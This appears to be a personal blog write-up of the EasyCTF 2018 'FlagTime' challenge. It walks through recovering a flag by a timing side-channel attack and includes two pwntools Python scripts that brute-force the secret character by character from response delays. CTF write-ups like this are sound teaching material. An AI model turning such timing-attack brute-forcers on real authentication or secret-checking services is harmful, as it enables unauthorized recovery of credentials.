 ```yaml
---
layout: post
title: EasyCTF'18 - FlagTime writeup
date: 2018-02-24
tags: ['tech']
---
```

## Description
`This problem is so easy, it can be solved in a matter of seconds. Connect to c1.easyctf.com:12482.`

## Thought process 

So the moment I read the title and description I knew it was something like a [Time-Based Blind SQL Injection](http://www.sqlinjection.net/time-based/){:target="_blank"}  

I began experimenting with different values to see if I could find a pattern ...

* It seems that when the character is wrong, the time taken for the reply is short
![wrong](/assets/images/flagtime-1.gif)

* while a correct character resulted in a slightly longer delay in the reply (2 seconds)
![right](/assets/images/flagtime-2.gif)

* To test this theory, I tested the first part of the flag *(which is already known as the standard flag format)*
![easyctf{](/assets/images/flagtime-3.gif)
which took a total of 6 seconds, almost 1 second for each correct character 

#### After that I wrote a script to brute force the flag based on a known characterlist:

``` python
#!/usr/bin/python
from pwn import *

#send and receive response
def send_msg(msg):
	conn = remote("c1.easyctf.com",12482)
        conn.recv() #"enter the flag:"
        conn.sendline(msg)
        data = conn.recvuntil('\n')
        if not data.rstrip() == 'no':
		print(data)
		exit()

#returns the time taken for a particular string
def getTime(s):
	sum = 0
	for t in range(3):
		start = time.time()
		send_msg(s)
		diff = time.time() - start
		sum += diff
	sum = sum / 3
	return sum

#easyctf{e@o%
flag = "easyctf{e@o%Kx3b5"   #the flag is built by adding the "winner" of each round
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}!@#$%^&*_-=+"
while True:
	
	buff = []

	#pick a new character to try
	for c in chars:
		timeDiff = getTime(flag+c)
		buff.append(timeDiff)

	#get the max of all times
	winner = max(buff)
	i = buff.index(winner)

	#add to flag
	flag += chars[i]
	print ">",flag
		
```
Unfortunately this script was not performing as I expected, due to this challenge being hosted in the United States, there is a lot of **fluctuation in RTT** (Round Trip Time) which affects the accuracy of the script, since the script only knows how to pick the character which took the longest time. Not only that, I tried to compensate for the fluctations by taking the average of 3 runs which wasted half a day and provided no benefit at all.

I left the script to run while working on other challenges and when I checked an hour later I got `easyctf{e@o%Kx3b5`, which is basically gibberish :confused:

#### As an example: 
![rip](/assets/images/flagtime-4.gif)

I heard others mentioning running their script from a server they rented from Amazon Web Services (located in the US) so I thought I could do the same, but then I remembered I ran out of free Digital Ocean credits and I also didn't want to spend my AWS credits on a challenge like this, so I left the challenge on hold until further notice ...

After a good night's rest, it suddenly came to me that EasyCTF did provide their own **shell server** that players could SSH into ! Why didn't I think of that sooner ? I revised my current script into a faster version and stuck it into the EasyCTF shell server.

I was pleasantly surprised to find that their shell server already had the *pwn* module pre-installed :D
Setting it up on my machine was quite painful but I did learn that `sudo -H pip install --upgrade <package>` solves pretty much everything ~

```python
#!/usr/bin/python
from pwn import *

#send and receive response
def send_msg(msg):
	conn = remote("c1.easyctf.com",12482)
        conn.recv() #"enter the flag:"
        conn.sendline(msg)
        data = conn.recvuntil('\n')
        if not data.rstrip() == 'no':
		print(data)
		exit()

#returns the time taken for a particular string
def getTime(s):
	start = time.time()
	send_msg(s)
	diff = time.time() - start
	return diff

flag = ""  #easyctf{ezx  (not sure if x or _ they seem close)
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}!@$_"

while True:
	
	max = 0
	maxChar = None

	#pick a new character to try
	for c in chars:
		timeDiff = getTime(flag+c)
		print flag+c,"->",timeDiff
		if timeDiff > max:
			maxChar = c
			max = timeDiff

	#add to flag
	
	flag += maxChar
	print "====>",flag
```
It still wasn't as fast as I'd like, as the time delay in correct characters increases for each character, it became increasingly difficult to bruteforce. 

Based on the length of the characterlist I used : 
* Brute-forcing the first character (0.5 seconds for each reply) would need <u>38 seconds</u> for 1 whole round
* Brute-forcing the 10th character (10 seconds for each reply) would need **<u>12 minutes</u>** for 1 whole round :( 

So my strategy was to let the script brute force the flag whilst I did trial and error beside it at the same time
![many](/assets/images/flagtime-5.jpg)

Once parts of the flag were uncovered, the rest of the *word* would become trivially guessable                                      
eg. `easyctf{ez_t1m` **->** `easyctf{ez_timing` / `easyctf{ez_t1m1ng` or any variation of *"timing"*

In the end the flag was `easyctf{ez_t1m1ng_4ttack!}` :checkered_flag:

## Things I learnt from this challenge
* How to setup and use the pwn library (for connecting to ports/sockets) 
* This type of attack is called timing attack
* The effect of physical distance between networks that can affect results significantly 


Overall I'm pretty proud that out of 1000-over teams I was one of the first 120 to solve this challenge, although its a Miscallaneous challenge I definitely got a lot out of it ! 
